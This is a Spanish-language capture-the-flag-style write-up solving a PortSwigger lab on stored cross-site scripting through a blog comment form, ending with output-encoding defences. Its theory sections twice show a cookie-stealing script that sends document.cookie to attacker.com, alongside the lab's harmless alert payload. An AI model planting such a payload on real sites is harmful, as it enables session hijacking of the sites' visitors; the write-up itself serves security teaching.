





# Write-up - PortSwigger Lab 24

Voy a hacer un laboratorio de PortSwigger. El lab 24 de Cross-site scripting.

URL del laboratorio:

```text
https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Laboratorio: XSS almacenado en contexto HTML sin ningún tipo de codificación

Este laboratorio contiene una vulnerabilidad de cross-site scripting (XSS) almacenado en la funcionalidad de comentarios.

Para resolver el laboratorio, envía un comentario que invoque la función `alert` cuando se visualice la entrada del blog.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Objetivo principal

El objetivo principal es conseguir que un payload JavaScript quede guardado en la aplicación y se ejecute posteriormente cuando alguien visualice la entrada del blog.

Payload final:

```html
<script>alert(1)</script>
```

Este laboratorio no es XSS reflejado. Es XSS almacenado.

Eso significa que el payload no solo viaja en una petición y vuelve en la respuesta inmediata. Aquí el payload queda persistido en el servidor, normalmente en una base de datos, y se ejecuta cada vez que el contenido vulnerable se renderiza en el navegador.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# TEORÍA XSS ALMACENADO

XSS almacenado significa:

```text
El ataque se guarda y se ejecuta después automáticamente.
```

No es como el XSS reflejado, donde normalmente necesitas que alguien haga click en un enlace preparado.

Aquí el atacante planta una “bomba” en la aplicación.

Esa bomba queda guardada.

Después, cuando otro usuario visita la página donde se muestra ese contenido, el navegador ejecuta el código sin que la víctima tenga que hacer nada raro.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Mecanismo técnico: el flujo de la persistencia

Ejemplo de ejecución:

El atacante envía una petición POST para publicar un comentario:

```html
comment=<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>
```

El servidor guarda este string literalmente en la tabla `comments` de la base de datos.

Después, un usuario o el propio administrador de la página entra a leer el post.

El servidor ejecuta un `SELECT` a la base de datos, extrae el comentario y lo renderiza dentro del HTML:

```html
<div>
    <p><script>fetch(...)</script></p>
</div>
```

El navegador de la víctima interpreta la etiqueta `<script>` como código ejecutable.

Si el payload fuese de robo de cookie y la cookie fuese accesible desde JavaScript, el script podría enviar la cookie de sesión al servidor del atacante.

En este laboratorio no robamos nada. Solo ejecutamos:

```javascript
alert(1)
```

porque es lo que pide PortSwigger para demostrar la ejecución.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Qué significa el parámetro `comment`

`comment` es solo el nombre de la caja donde escribes.

Es el nombre del campo del formulario.

Nada más.

Ejemplo:

| Campo | Valor |
|---|---|
| username | juan |
| comment | hola |

Se enviaría algo como:

```text
username=juan&comment=hola
```

`comment` contiene el texto que tú escribiste.

Normalmente pondrías:

```text
comment=Hola
```

Pero un atacante puede poner:

```html
comment=<script>alert(1)</script>
```

Sigue siendo un comentario desde el punto de vista del formulario.

Pero ahora contiene código.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# El problema real

La web hace esto:

1. Recibe `comment`.
2. Lo guarda.
3. Luego lo muestra en pantalla.
4. No lo escapa.
5. El navegador interpreta el contenido como HTML/JavaScript.

Ejemplo normal:

```html
<p>Hola</p>
```

Ejemplo vulnerable:

```html
<p><script>alert(1)</script></p>
```

En el segundo caso, el navegador ejecuta el script.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Flujo paso a paso en modo real

## 1. Tú escribes un comentario

En vez de texto normal, metes:

```html
<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>
```

Para la web esto puede ser solo texto en el momento de recibirlo.

## 2. El servidor lo guarda

La aplicación guarda tu comentario en la base de datos.

No limpia el código.

No codifica `<`.

No codifica `>`.

No elimina `<script>`.

Resultado:

```text
El script queda almacenado tal cual.
```

## 3. Otra persona entra a la página

Puede ser:

- un usuario;
- el administrador;
- un moderador;
- cualquier visitante.

La web hace:

```sql
SELECT comment FROM comments;
```

Y mete eso en el HTML.

## 4. Aquí ocurre el problema real

El navegador de la víctima ve:

```html
<script>...</script>
```

y piensa:

```text
Esto es código legítimo de la página.
```

Entonces lo ejecuta automáticamente.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Impacto y diferencias con XSS reflejado

## Ataque autónomo

En XSS reflejado tienes que engañar al usuario para que abra un link.

En XSS almacenado no necesitas engañar al usuario con un link malicioso.

Publicas un comentario y cualquier usuario que lo vea ejecuta tu código.

## Garantía de autenticación

Esto es potente porque muchas veces la víctima ya está logueada.

El script se ejecuta dentro de la web real y dentro de la sesión real de la víctima.

Si quien visita el comentario es un administrador, el script se ejecuta en el navegador del administrador.

Resultado posible en un caso real:

- actuar como ese usuario;
- realizar peticiones autenticadas;
- leer datos del DOM;
- cambiar configuraciones;
- robar tokens accesibles;
- modificar formularios;
- redirigir a phishing.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Detección manual de XSS almacenado

## 1. Identificación de entradas

Busca sitios donde el usuario pueda meter datos:

- comentarios;
- formularios;
- perfil;
- mensajes;
- tickets;
- publicaciones;
- descripciones;
- nombres;
- firmas;
- campos de configuración.

Clave:

```text
Que esos datos se guarden.
```

## 2. Rastreo de salidas

Después mira dónde se muestran esos datos.

Ejemplo:

```text
Publicas comentario -> aparece en el blog.
```

Tienes que seguir el camino del dato.

No basta con encontrar inputs.

Hay que encontrar dónde se almacenan y dónde se renderizan.

## 3. Manejo de out-of-band

A veces el input no viene directamente de la web principal.

Puede venir de:

- APIs;
- integraciones externas;
- feeds;
- importaciones;
- paneles internos;
- sistemas de soporte.

Puede haber XSS aunque tú no veas el input directamente en la misma página donde se ejecuta.

## 4. Prueba de contexto

No todos los XSS son iguales.

Depende de cómo se inserta el dato.

Ejemplos:

```html
<p>INPUT</p>
```

```html

```

```html
<script>var x = "INPUT";</script>
```

Cada contexto necesita un payload distinto.

En este laboratorio el contexto es el más directo:

```text
HTML context with nothing encoded
```

Eso quiere decir que nuestro input se mete directamente en HTML y no se codifica.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Resumen simple de XSS almacenado

XSS almacenado:

- se guarda en la web;
- se ejecuta solo;
- afecta a quien vea el contenido;
- es más peligroso que el reflejado;
- no depende de enviar un link cada vez;
- persiste hasta que se borre o se filtre el contenido.

Frase clave:

```text
No buscas inputs. Buscas dónde el input se guarda y luego se ejecuta.
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Vamos a llevar a cabo esto de forma práctica

Le damos a empezar laboratorio y se nos abre la siguiente página web:

```text
https://0aa7002003724b06810ff2ed00ed000c.web-security-academy.net/
```

La página web tiene el aspecto de la imagen 1. Es un blog con fotos.


**Referencia a la imagen 1:** Vista inicial del laboratorio. Se observa un blog con varias entradas. La vulnerabilidad está en la funcionalidad de comentarios.

Una vez dentro, abrimos BurpSuitePro y en el navegador activamos FoxyProxy para que en el HTTP History vayan apareciendo las distintas requests mientras navegamos por la página.

Como ya nos dice el laboratorio, contiene una vulnerabilidad de XSS almacenado en la funcionalidad de comentarios.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Localización de la funcionalidad vulnerable

Yo no puedo loguearme ni nada.

Pero sí puedo entrar en un post.

Si voy a un post y clickeo dentro, me redirecciona a la página del post:

```text
https://0aa7002003724b06810ff2ed00ed000c.web-security-academy.net/post?postId=10
```

Dentro del post puedo dejar un comentario.

Esto se ve en la imagen 2.



**Referencia a la imagen 2:** Formulario para dejar comentarios. Aparecen los campos `Comment`, `Name`, `Email` y `Website`.

El formulario tiene estos campos:

```text
Comment
Name
Email
Website
```

El campo importante para el XSS es:

```text
Comment
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Primer test: comprobar si renderiza HTML

Con este panorama, vamos a dejar un comentario de prueba.

En `Comment` ponemos:

```html
<h1> Hello WORLD </h1>
```

En los campos `Name`, `Email` y `Website` ponemos cualquier cosa:

```text
Name: pepe
Email: pepe@gmail.com
Website: http://www.pepe.com
```

Y le damos a:

```text
Post Comment
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Confirmación del envío del comentario

La aplicación nos confirma que el comentario ha sido enviado.

Esto se ve en la imagen 3.



**Referencia a la imagen 3:** Página de confirmación indicando que el comentario se ha subido correctamente.

El mensaje es:

```text
Thank you for your comment!
Your comment has been submitted.
```

Esto confirma que el comentario ha sido recibido y almacenado.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Ver el comentario en el post

Si le damos a:

```text
Back to blog
```

vemos ahora el comentario:

```text
pepe | 25 April 2026

Hello WORLD
```

Esto se ve en la imagen 4.



**Referencia a la imagen 4:** El comentario `Hello WORLD` se renderiza como encabezado, no como texto plano. Esto demuestra que el HTML introducido se interpreta.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Interpretación del test con `<h1>`

Se ha renderizado el HTML.

Hemos conseguido que cuando introducimos un comentario, en vez de mostrarse como texto plano, el navegador interprete la etiqueta.

Un comentario normal puede verse en HTML como:

```html
<p>Do you get paid to write this drivel?</p>
```

Pero nuestro comentario queda como:

```html
<p><h1> Hello WORLD </h1></p>
```

Esto significa que el input se inserta directamente en el HTML.

No se escapa.

No se convierte `<` en `&lt;`.

No se convierte `>` en `&gt;`.

Además, visualmente se ve, ya que el resto de comentarios tienen otro formato y nuestro comentario aparece grande/rosita por el `<h1>`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Qué confirma este primer test

Este primer test confirma:

1. El comentario se guarda.
2. El comentario se muestra después en el post.
3. El HTML se interpreta.
4. No hay codificación de salida.
5. El contexto es HTML.

Todavía falta comprobar ejecución JavaScript, pero la vulnerabilidad ya apunta claramente a Stored XSS.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Segundo test: ejecutar JavaScript

Ahora vamos a meter otro comentario con el payload que provoca el popup:

```html
<script>alert(1)</script>
```

Este payload utiliza una etiqueta `<script>`.

Dentro ejecuta:

```javascript
alert(1)
```

Si el navegador interpreta el comentario como HTML y no bloquea la ejecución, aparecerá un popup.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Resultado: laboratorio resuelto

Al enviar el comentario con:

```html
<script>alert(1)</script>
```

el laboratorio aparece como resuelto.

Esto se ve en la imagen 5.



**Referencia a la imagen 5:** El laboratorio aparece como resuelto después de enviar el comentario malicioso con el payload JavaScript.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Consecuencia real: el popup aparece al visualizar el post

Aquí hay que entender bien el comportamiento.

El popup puede no aparecer justo en la página de confirmación de envío.

¿Por qué?

Porque el script se guarda en la base de datos.

Cuando alguien accede al post y la página carga los comentarios, el servidor recupera el comentario y lo inserta en el HTML.

Entonces el navegador interpreta el `<script>` y se ejecuta.

Le damos a:

```text
Back to blog
```

Y efectivamente no nos muestra primero el contenido de forma normal, sino que aparece directamente el popup.

Esto se ve en la imagen 6.



**Referencia a la imagen 6:** Popup generado por el Stored XSS al cargar la entrada del blog. El script se ejecuta automáticamente porque quedó almacenado como comentario.

Es lo primero que se carga antes de poder interactuar normalmente con la página.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Qué está pasando internamente

Cuando enviamos:

```html
<script>alert(1)</script>
```

la aplicación guarda ese comentario.

Después, al cargar el post, el servidor hace algo parecido a:

```sql
SELECT comment FROM comments WHERE post_id = 10;
```

Recibe el comentario y lo mete en el HTML:

```html
<p><script>alert(1)</script></p>
```

El navegador procesa la respuesta.

Al encontrar:

```html
<script>alert(1)</script>
```

ejecuta JavaScript.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Payloads utilizados

## Payload de prueba HTML

```html
<h1> Hello WORLD </h1>
```

## Datos de prueba del formulario

```text
Name: pepe
Email: pepe@gmail.com
Website: http://www.pepe.com
```

## Payload final

```html
<script>alert(1)</script>
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Vulnerabilidad identificada

Tipo:

```text
Stored XSS
```

Contexto:

```text
HTML context
```

Codificación:

```text
Nothing encoded
```

Vector:

```text
Comment functionality
```

Persistencia:

```text
Sí, el payload queda almacenado como comentario.
```

Impacto de laboratorio:

```text
alert(1)
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Defensa correcta

La aplicación debería codificar correctamente los comentarios antes de insertarlos en el HTML.

Por ejemplo:

```text
<  -> &lt;
>  -> &gt;
"  -> &quot;
'  -> &#x27;
&  -> &amp;
```

Si un usuario escribe:

```html
<script>alert(1)</script>
```

la página debería mostrar:

```html
&lt;script&gt;alert(1)&lt;/script&gt;
```

como texto, no ejecutarlo.

Además:

- aplicar output encoding contextual;
- sanitizar HTML si se permite formato enriquecido;
- evitar insertar input directamente en el DOM;
- usar Content Security Policy como defensa adicional;
- marcar cookies sensibles con `HttpOnly`;
- tratar comentarios como datos, no como código.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Conclusión

Este laboratorio demuestra un XSS almacenado básico pero muy importante.

La aplicación permite dejar comentarios.

Primero probamos con:

```html
<h1> Hello WORLD </h1>
```

y comprobamos que el HTML se renderiza.

Después enviamos:

```html
<script>alert(1)</script>
```

El payload queda almacenado y se ejecuta cuando se visualiza el post.

FRASE CLAVE:

```text
En XSS almacenado, el input no solo se refleja: se guarda y se ejecuta después.
```

Payload final:

```html
<script>alert(1)</script>
```

**Laboratorio resuelto.**
